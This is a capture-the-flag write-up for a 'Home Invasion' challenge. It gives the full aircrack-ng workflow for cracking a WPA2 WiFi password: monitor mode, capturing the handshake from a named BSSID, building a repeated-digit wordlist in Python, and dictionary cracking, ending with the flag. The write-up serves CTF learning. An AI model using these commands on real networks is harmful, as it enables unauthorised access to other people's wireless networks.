


# Home Invasion Wifi Password - 1000

> Home Invasion WiFi password
>  
> This challenge will require you to intelligently guess the password for the Home Invasion WiFi password. You need this password to complete the other challenges. There is no dynamic points for this challenge. Submit your answer in the following format HI{12341234}. Hint: There are only eight digits to this password. The last four digits are the same as the first four digits; that should narrow your options down. Happy Hunting!

We were told to connect to a wireless access point called `Home Invasion` or `Home Invasion 5G`. However, no password was given.

### Preparing the wireless interface

Thus, we used the `aircrack-ng` suite of tools to brute-force the wifi password. 

We followed the guide on [this website](https://github.com/brannondorsey/wifi-cracking) closely.


First we ran `iw dev` to find the name of our wireless interface.
```
✗ iw dev
phy#0
	[...]
	Interface wlp1s0
	[...]
```

Then, we placed said wireless interface under monitor mode to listen to 802.11 Beacon frames. We listened to the Beacon frames by running `airodump-ng <interface>`.
```
$ airmon-ng start wlp1s0
[...]
$ iw dev
	[...]
	Interface wlp1s0mon0
	[...]
$ airodump-ng wlp1s0mon0
```

After sniffing the Beacon frames, and identifying our target wifi's BSSID, we proceeded to capture `Home Invasion`'s 4-way handshake.
The command for the capture was `airodump-ng -c 3 --bssid 34:97:F6:01:93:48 -w ./capture.cap wlp1s0mon0`


### Preparing the wordlist

The hint that "the last four digits are the same as the first four digits" shortens the dictionary list by a large margin. Because of this clue, we only have ` 10 ^ 4  = 10 000` different combinations to try. We created the small Python script below to help us generate the word list.
```
>>> for i in range(1,10000):
...     print("%04d%04d" % (i,i))
```

We used `'0'` as paddings because we wanted to ensure that each word in the word list was 8 digits.
```
00010001
[...]
00090009
00100010
00110011
00120012
00130013
[...]
99879987
99889988
99899989
99909990
99919991
99929992
99939993
99949994
99959995
99969996
99979997
99989998
99999999
```

### Combining both together

After copying and pasting the output into a file called `word_list`, we used the following command to crack the password. 
```
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 34:97:F6:01:93:48 -w word_list capture.cap
```

The image below shows that the command successfully returned us the password for the wifi.



In conclusion, the flag input is `HI{96859685}`.
